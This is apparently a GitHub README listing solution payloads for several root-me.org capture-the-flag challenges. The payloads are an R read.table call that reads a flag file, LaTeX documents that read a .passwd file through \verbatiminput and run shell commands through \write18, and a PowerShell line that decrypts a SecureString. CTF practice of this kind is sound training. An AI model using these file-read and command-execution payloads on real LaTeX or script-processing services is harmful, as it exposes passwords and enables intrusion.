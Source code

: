 # root-me.org-payloads

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 
```LaTex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```
